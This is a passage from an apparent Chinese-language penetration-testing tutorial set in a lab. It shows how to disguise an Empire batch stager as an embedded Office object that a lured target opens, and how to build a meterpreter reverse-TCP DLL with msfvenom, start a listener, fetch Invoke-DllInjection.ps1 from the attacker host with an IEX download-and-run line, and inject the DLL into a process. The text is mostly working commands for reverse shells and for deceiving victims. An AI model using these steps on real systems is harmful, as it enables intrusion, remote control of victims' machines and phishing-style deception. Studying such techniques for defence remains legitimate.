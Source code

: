 ```` [![](https://p5.ssl.qhimg.com/t01c553ebfac7a01007.png)](https://p5.ssl.qhimg.com/t01c553ebfac7a01007.png)
攻击者(192.168.159.134)开启监听 并生成bat文件payload：<br>`listeners`<br>`usestager windows/launcher_bat http`<br>`execute`<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t017b89a4956e058dd2.png)

在word中“插入”-“对象”-“由文件创建” 处，插入launcher.bat文件，可更改文件名称和图标，进行伪装，当诱导目标点击launcher_lltest.xls文件，执行后，即可成功反弹shell：

[![](https://p5.ssl.qhimg.com/t019fac2fa169e37faf.png)](https://p5.ssl.qhimg.com/t019fac2fa169e37faf.png)

[![](https://p4.ssl.qhimg.com/t01df44007f3dfd7c7f.png)](https://p4.ssl.qhimg.com/t01df44007f3dfd7c7f.png)

[![](https://p5.ssl.qhimg.com/t01d3703513e3d73d1a.png)](https://p5.ssl.qhimg.com/t01d3703513e3d73d1a.png)



## PowerSploit DLL注入反弹shell

PowerSploit是又一款基于powershell的后渗透攻击框架。PowerSploit包括Inject-Dll(注入dll到指定进程)、Inject-Shellcode（注入shellcode到执行进程）等功能。<br>
利用msfvenom、metasploit和PowerSploit中的Invoke-DllInjection.ps1 实现dll注入，反弹shell

1）msfvenom生成dll后门<br>`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.159.134 lport=6667 -f dll -o /var/www/html/PowerSploit/lltest.dll`<br>
说明：目标机64位 用x64 ； 32位的话用windows/meterpreter/reverse_tcp

[![](https://p4.ssl.qhimg.com/t01b4caf8412924dfcc.png)](https://p4.ssl.qhimg.com/t01b4caf8412924dfcc.png)

2）metasploit 设置payload 开启监听

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.159.134
set LPORT 6667
exploit
```

[![](https://p0.ssl.qhimg.com/t012d0e9a74a7f468ca.png)](https://p0.ssl.qhimg.com/t012d0e9a74a7f468ca.png)

3）powershell 下载PowerSploit中Invoke-DllInjection.ps1和msfvenom生成的dll后门<br>
首先上传dll文件到目标机。然后Get-Process 选定一个进程，最后注入到该进程

目标机执行:

```
Get-Process #选择要注入的进程
IEX (New-Object Net.WebClient).DownloadString("http://192.168.159.134/PowerSploit/CodeExecution/Invoke-DllInjection.ps1")
Invoke-DllInjection -ProcessID 5816 -Dll C:UsersAdministratorDesktoplltest.dll
```

[![](https://p3.ssl.qhimg.com/t013b399a39f86d7729.png)](https://p3.ssl.qhimg.com/t013b399a39f86d7729.png)

[![](https://p3.ssl.qhimg.com/t01121eca1107d335a1.png)](https://p3.ssl.qhimg.com/t01121eca1107d335a1.png)

````